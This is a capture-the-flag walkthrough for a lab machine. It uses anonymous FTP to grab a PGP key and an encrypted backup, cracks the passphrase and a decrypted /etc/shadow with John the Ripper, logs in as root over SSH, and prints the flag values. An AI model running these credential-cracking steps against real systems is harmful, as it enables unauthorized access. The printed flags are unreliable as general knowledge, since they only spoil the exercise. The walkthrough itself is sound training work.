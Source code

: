 ## Overview:
boot2root machine for FIT and bsides guatemala CTF

**Task: Read user.txt and root.txt**

## Recon:
Let's start with a basic nmap scan to see which ports are open.
```bash
nmap -A 10.10.190.223                      
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 16:43 +06
Nmap scan report for 10.10.190.223
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Sep 23 03:40 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x   92 0        0               0 Sep 23 03:40 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Sep 23 03:40 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Sep 23 03:40 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.120.190
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   46.53 ms  10.17.0.1
2   ... 4
5   197.14 ms 10.10.190.223

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.79 seconds
```
So FTP is our target as it has anonymous login allowed, let's explore it.

## FTP_RECON
After logging into the FTP server anonymously, I found two interesting files in one of the directories:\
● backup.pgp\
● private.asc\
I downloaded both files to my local machine using the FTP get command:
```bash
ftp> get backup.pgp
ftp> get private.asc
```
## Inspection
The private.asc file looked like a PGP private key. I confirmed this by viewing its contents:
```bash
cat private.asc
```
It started with:
```bash
-----BEGIN PGP PRIVATE KEY BLOCK-----
```
This meant I could potentially use it to decrypt backup.pgp.

**Importing the Private Key**
I tried to import the key into my GPG keyring:
```bash
gpg --import private.asc
```
But it's password protected, now we have to crack it with john.
```bash
gpg2john private.asc > hash.txt
```
We made the hash of the file for cracking.\
Now we can start:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
You'll get the pass soon after executing.

Now again try to import the gpg key and when asks for pass, provide the password we cracked. And the key will be successfully imported.
## Decryption
With the key imported, I decrypted the backup.pgp file:
```bash
gpg --decrypt backup.pgp > data.txt
```
I inspected the contents of the decrypted file.\
To my surprise, it was a Linux /etc/shadow file, containing password hashes for system users, including root.

## Cracking the Shadow File
I used John the Ripper with the rockyou.txt wordlist to crack the hashes:
```bash
john data.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
At this point, I was expecting to crack a regular user's password, but to my surprise, John immediately cracked the root user's password!

## Logging In as Root
With the root password now known, I attempted to log into the target machine via SSH:
```bash
ssh root@<target-ip>
```
I entered the cracked password and successfully gained root access.\
Now inside root directory you'll get root.txt and user.txt in /home/melodias/ 

***● user.txt: 606083fd33beb1284fc51f411a706af8***\
***● root.txt: f706456440c7af4187810c31c6cebdce***
